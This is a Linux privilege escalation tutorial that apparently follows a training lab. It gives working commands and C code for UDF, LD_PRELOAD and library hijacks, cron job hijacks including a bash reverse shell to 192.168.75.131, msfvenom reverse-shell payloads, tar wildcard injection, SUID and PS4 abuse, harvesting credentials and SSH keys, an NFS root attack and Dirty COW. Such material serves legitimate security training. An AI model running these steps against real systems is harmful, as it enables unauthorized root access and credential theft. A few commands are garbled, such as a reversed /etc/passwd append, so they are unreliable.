Here we will discuss various different techniques to escalate to root privileges on a Linux Machine. The first and most crucial step would be downloading some popular auto-enumeration scripts on the target machine. Some good options are Linux-Smart-Enumeration, LinEnum, LinPEAS. These help us identify vulnerable programs and services as well as other potential privileges escalation vectors. Some common methods to escalate privileges are:
Service Exploits
This involves enumerating various different services running on the target machine and finding any known public exploits for those specific versions!
We come across one such service mysqld. This MySQL service
is running as root and the "root" user for the service
does not have a password assigned. We can use a popular exploit that takes advantage of User Defined
Functions (UDFs) to run system commands as root
via the MySQL service. In this exploit we basically compile the source code into a
shared object file. Then we start the msql service as
root without any password. Now, we create a table and insert the absolute
file path of shared object as a value in the table. After that we create a custom
defined function to copy /bin/bash to /tmp/rootbash and
set the SUID permission. Executing this rootbash gives us a root shell. The
commands are as follows:
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
Weak File Permissions - Readable /etc/shadow
This section involves identifying files with critical information that have poor file permissions attached to them. This way we can read the contents of the file and if lucky, even write to it.
We find that both /etc/shadow as well /etc/passwd files
have global read&write permissions. Now, by extracting the
password hashes of the root account from shadow file one can try
cracking it using johntheripper or hashcat with a popular
wordlist.
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Weak File Permissions - Writable /etc/shadow
If we have the write permissions over the /etc/shadow
file we can simply replace the original password hash with our own hash.
This way we can indirectly set the root password according to our own liking. We can
generate our own password hash using the command:
mkpasswd -m sha-512 <newpasswordhere>
Weak File Permissions - Writable /etc/passwd
Now, suppose if the /etc/shadow file is inaccessible, in that
case we can also modify the /etc/passwd file to get
root.
First generate a new password hash. Then copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x"). This way we created a new user with root privileges which uses our own password.
openssl passwd <newpasswordhere>
echo /etc/passwd >> newroot:<passwordhash>:0:0:root:/root:/bin/bash
su newroot
Sudo - Shell Escape Sequences
First list all those programs that can be run using sudo using
sudo -l.
We come across programs that can run as sudo and that too without a
password.

Visit GTFOBins and search for some of the program
names. If the program is listed with "sudo" as a function, you can use
it to elevate privileges, usually via an escape sequence.
Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.
Sudo - Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment. Check which environment variables are inherited (look for the env_keep options):
sudo -l
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
Create a shared object using by compiling the following C code:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ./preload.c
Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
sudo LD_PRELOAD=/tmp/preload.so program-name-here
A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
Run ldd against the apache2 program file to see which shared libraries are used by the program:
ldd /usr/sbin/apache2

Create a shared object with the same name as any one of the listed libraries
(libcrypt.so.1) using the following code:
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
gcc -o /tmp/libcrypt.so.1 -shared -fPIC ./library_path.c
Run apache2 using sudo, while settings the LD_LIBRARY_PATH
environment variable to /tmp (where we output the compiled shared
object):
sudo LD_LIBRARY_PATH=/tmp apache2
A root shell should spawn.
Cron Jobs - File Permissions
Cron jobs are programs or scripts which users can schedule
to run at specific times or intervals. Cron table files
(crontabs) store the configuration for cron jobs. The system-wide
crontab is located at /etc/crontab. View the contents of the
system-wide crontab:
cat /etc/crontab

There should be two cron jobs scheduled to run every minute. One
runs overwrite.sh, the other
runs /usr/local/bin/compress.sh.
Locate the full path of the overwrite.sh file:
locate overwrite.sh
Note that the file is world-writable:
ls -l /usr/local/bin/overwrite.sh
Append the following code to the overwrite.sh file:
bash -i >& /dev/tcp/192.168.75.131/4444 0>&1
Thus when the scheduled overwrite.sh script gets executed it will generate a reverse shell back to the our local machine which can be caught using netcat listener.
Cron Jobs - PATH Environment Variable
Now what if the cronjob file is not user writable?
If the cronjob doesn't have an absolute path set inside the crontab, then
it will search the directories listed inside the $PATH variable for
that particular file. We can create our own version of the cronjob
executable and place it inside any one of the user writable directories
that comes before the actual directory that stores the real cronjob file. This way
our file will be executed instead of the actual file.
View the contents of the system-wide crontab:
cat /etc/crontab
Note that the PATH variable starts with /home/user
which is our user's home directory. Create a file called
overwrite.sh in your home directory with the following contents:
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
Make sure that the file is executable:
chmod +x /home/user/overwrite.sh
Wait for the cron job to run (should not take longer than a
minute). Run the /tmp/rootbash command with -p to
gain a shell running with root privileges:
/tmp/rootbash -p
Cron Jobs - Wildcards
Now, what if the cronjob has an absolute path set?
If the cronjob file to be executed uses a Wildcard
character (*), we could exploit that to execute
user-defined files. Linux is quite flexible with filenames, so we can even
use -xyz as a filename. When this file will be called upon by the
cronjob, it would rather be passed a argument instead of a filename.
View the contents of the other cronjob script:
cat /usr/local/bin/compress.sh

Note that the tar command is being run with a wildcard
(*) in your home directory. Take a look at the
GTFOBins page for tar. Note that tar has command line
options that let you run other commands as part of a checkpoint
feature.

Use msfvenom on your Kali box to generate a reverse shell ELF
binary.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.75.131 LPORT=4444 -f elf -o shell.elf
Transfer the shell.elf file to /home/user/ on the
Debian VM. Make sure the file is executable:
chmod +x /home/user/shell.elf
Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
When the tar command in the cronjob runs, the wildcard (*)
will expand to include these files. Since their filenames are valid tar
command line options, tar will recognize them as such and treat them as
command line options rather than filenames.
Set up a netcat listener on your Kali box on port 4444 and wait for the cronjob to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
SUID / SGID Executables - Known Exploits
Find all the SUID/SGID executables on the Debian VM. This
can either be achieved through the awesome Linux enumeration scripts or by
using the command:
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
Note that /usr/sbin/exim-4.84-3 appears in the results. Try to
find a known exploit for this version of exim as it quite infamous
for security vulnerabilities. Exploit-DB, Google,
and GitHub are good places to search!
A local privilege escalation exploit matching this version of exim
exactly should be available. A copy can be found on the Debian VM
at /home/user/tools/suid/exim/cve-2016-1531.sh
Run the exploit script to gain a root shell:
/home/user/tools/suid/exim/cve-2016-1531.sh
Note: Sometimes some scripts might pop a
/bin/sh^M: bad interpreter: No such file or directory error. This
means the script was written using a Windows newline character.
These characters can be simply removed using the command:
sed -i -e "s/^M//" script.sh.
SUID / SGID Executables - Shared Object Injection
When a program is executed it loads the necessary shared objects. We can track these system calls for any shared objects using a program called strace. We can then check whether any shared objects were not found and if so, we could possibly inject our own malicious shared objects by writing them to the file location.
On this machine, the /usr/local/bin/suid-so SUID
executable is deliberately made vulnerable to shared object injection.
First, execute the file and note that currently it displays a progress bar before
exiting:
/usr/local/bin/suid-so
Run strace on the file and search the output for open/access
calls and for "no such file" errors:
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

Note that the executable tries to load the
/home/user/.config/libcalc.so shared object within our home
directory, but it cannot be found. Also, the particular directory is writable by the
user.
Create the .config directory for the libcalc.so file:
mkdir /home/user/.config
Compile a C code that spawns a Bash shell and move it at the location the
suid-so executable was looking for it:
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
gcc -shared -fPIC -o /home/user/.config/libcalc.so ./libcalc.c
Execute the suid-so executable again, and note that this time,
instead of a progress bar, we get a root shell.
/usr/local/bin/suid-so
SUID / SGID Executables - Environment Variables
If a program tries to execute another program, the name of that program is likely
embedded in the executable file as a string. We can run
strings on the executable file to find the strings of characters.
We can also use strace to see how that program is executing.
Another program called ltrace may also be of use.

The /usr/local/bin/suid-env executable can be exploited due to
it inheriting the user's PATH environment variable and attempting
to execute programs without specifying an absolute path.
First, execute the file and note that it seems to be trying to start the apache2
webserver:
/usr/local/bin/suid-env
Run strings on the file to look for strings of printable characters:
strings /usr/local/bin/suid-env

One line ("service apache2 start") suggests that the service executable
is being called to start the webserver, however the full path of the
executable (/usr/sbin/service) is not being used. Compile the following
code into an executable called service. This code simply spawns a
shell:
int main() {
setuid(0);
system("/bin/bash -p");
}
gcc -o service ./service.c
Prepend the current directory (or where the new service executable is
located) to the PATH variable, and run
the suid-env executable to gain a root shell:
PATH=/home/user:$PATH
/usr/local/bin/suid-env
SUID / SGID Executables - Abusing Shell Features (#1)
The /usr/local/bin/suid-env2 executable is identical
to /usr/local/bin/suid-env except that it uses the
absolute path of the service executable
(/usr/sbin/service) to start the apache2 webserver.
Verify this with strings:
strings /usr/local/bin/suid-env2

In Bash versions < 4.2-048 it is possible to
define shell functions with names that resemble file paths, then
export those functions so that they are used instead of any actual
executable at that file path.
Verify the version of Bash installed on the Debian VM is less than
4.2-048:
/bin/bash --version

Create a Bash function with the name "/usr/sbin/service" that
executes a new Bash shell (using -p so permissions are preserved) and
export the function:
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
Run the suid-env2 executable to gain a root shell:
/usr/local/bin/suid-env2
SUID / SGID Executables - Abusing Shell Features (#2)
Bash has a debugging mode which can be enabled with the
-x command line option, or by modifying the
SHELLOPTS environment variable to
include xtrace. By default, SHELLOPTS is read
only, however the env command allows SHELLOPTS to
be set.
When in debugging mode, Bash uses the environment variable PS4
to
display an extra prompt for debug statements. This variable can include
an
embedded command, which will execute every time it is shown.
If a SUID file runs another program via Bash (e.g. by using system()) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner.
Note: In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root and so this exploit won't work.
Run the /usr/local/bin/suid-env2 executable with bash
debugging enabled and the PS4 variable set to an embedded command
which creates an SUID version of /bin/bash:
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
Run the /tmp/rootbash executable with -p to gain a
shell running with root privileges:
/tmp/rootbash -p
Passwords & Keys - History Files
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.
View the contents of all the hidden history files in the user's home
directory:
cat ~/.*history | less

Note that the user has tried to connect to a MySQL server at some point,
using the "root" username and a password submitted via the command
line. Note that there is no space between the -p option and the password!
Switch to the root user, using the password:
su root
Passwords & Keys - Config Files
Config files often contain passwords in plaintext or other
reversible formats. List the contents of the user's home directory:
ls /home/user
Note the presence of a myvpn.ovpn config file. View the
contents of the file:
cat /home/user/myvpn.ovpn

The file should contain a reference to another location where the root user's
credentials can be found. Switch to the root user, using the
credentials:
su root
Passwords & Keys - SSH Keys
Sometimes users make backups of important files but fail to secure them
with the correct permissions. Look for hidden files & directories in
the system root:
ls -la /
Note that there appears to be a hidden directory called .ssh. View
the contents of the directory:
ls -l /.ssh
Note that there is a world-readable file called root_key.
Further inspection of this file should indicate it is a private SSH key.
The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents
of the root_key file and copy/paste the key) and give it
the correct permissions, otherwise your SSH client will refuse to use it:
chmod 600 root_key
Use the key to login to the Debian VM as the root account (note that due to
the age of the box, some additional settings are required when using SSH):
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa
-oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP
NFS
NFS (Network File System) is a popular distributed file
system. NFS shares are configured in the /etc/exports file. Remote
users can mount shares, access, create, modify
files. By default, created files inherit the remote user's id and group id (as owner
and group respectively), even if they don't exist on the NFS server.

Root Squashing is how NFS prevents an obvious privilege escalation.
If the remote user is (or claims to be) root (uid=O), NFS will instead
"squash" the user and treat them as if they are the
"nobody" user, in the "nogroup" group. While this behavior
is default, it can be disabled!
no_root_squash is an NFS configuration option which turns root
squashing off. When included in a writable share configuration, a
remote user who identifies as "root" can create files on the NFS share
as the local root user.
Check the NFS share configuration on the Debian VM:
cat /etc/exports

Note that the /tmp share has root squashing disabled. On your
Kali box, switch to your root user if you are not already running as
root. Using Kali's root user, create a mount point on your Kali
box and mount the /tmp share:
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
Still using Kali's root user, generate a payload using
msfvenom and save it to the mounted share (this payload
simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
Still using Kali's root user, make the file executable and set the SUID
permission:
chmod +xs /tmp/nfs/shell.elf
Back on the Debian VM, as the low privileged user account, execute
the file to gain a root shell:
/tmp/shell.elf
Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.
Good Linux Enumeration Scripts like LinPeas automatically detect the Kernel Version and suggest possible exploits but you can also use specific programs like Linux Exploit Suggester 2.
Run the Linux Exploit Suggester 2 tool to identify potential kernel
exploits on the current system:
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

The popular Linux kernel exploit "Dirty COW" should be listed. A
copy of exploit code for Dirty COW can be found
at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces
the SUID file /usr/bin/passwd with one that spawns a
shell (a backup of /usr/bin/passwd is made at /tmp/bak).
Compile the code and run it (note that it may take several minutes to complete):
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c
-o c0w ./c0w
Once the exploit completes, run /usr/bin/passwd to gain a root
shell. Remember to restore the original /usr/bin/passwd file and exit
the root shell before continuing!